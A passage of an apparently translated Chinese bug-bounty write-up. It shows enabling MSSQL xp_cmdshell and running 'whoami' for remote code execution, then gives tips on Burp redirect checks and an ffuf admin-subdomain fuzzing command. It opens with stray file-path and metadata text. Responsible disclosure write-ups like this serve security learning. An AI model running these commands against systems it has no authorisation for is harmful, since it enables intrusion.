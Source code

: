 因此，为了让xp_cmdshell能够正常工作，他们要做的第一件事情就是通过执行下列查询来启用该功能（通过mssql在目标系统中执行命令）：  
```
SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE
```  
  
接下来，下列命令执行后，RCE便「映入眼帘」：  
```
xp_cmdshell ‘whoami’
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39YKrISbxRdA8XI8oOqjpJNyJH93PEy0aecUb702hCfIgLx22d7faN9TAR5Xnw3UHibGPv669Vtc2A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
在发现了上述安全问题后，他们便立刻将相关信息上报给了厂商，并成功拿到了三万五千美元的漏洞奖金。  
  
  
**总结**  
  
  
##   
  
通过跟大家分享这一次的漏洞奖励计划经历，希望大家能够更加了解漏洞猎人的思路，总结如下：  
  
  
**1、一定要在Burp中检查重定向响应;**  
  
****  
实际上，很多节点都会存在本文所述的这种身份绕过漏洞，在Burp中捕捉并检查重定向响应后，我们就能够清楚地了解前后端的交互和反应情况了；  
  
  
**2、如果你在一个子域名中找到了可疑的安全问题，可以通过尝试子域名模糊测试方法来进行分析和测试;**  
```
admin-FUZZ.target.com 例如: admin-stg.target.com

FUZZ-admin.target.com 例如: cert-admin.target.com

adminFUZZ.target.com  例如: admintest.target.com

FUZZadmin.target.com  例如: testadmin.target.com

admin.FUZZ.target.com 例如: admin.dev.target.com
```  
  
相关命令如下：  
```
ffuf -w /subdomain_megalist.txt -u 'https://adminFUZZ.Target.com' -c  -t 350 -mc all  -fs 0

-t means threads , dont make it so high u could miss alot of working subs , aslo its dpends in your network speed

,sinc im using vps 350 find for me

-mc all means macth all respone codes like 200,302,403 and this importent
```  
  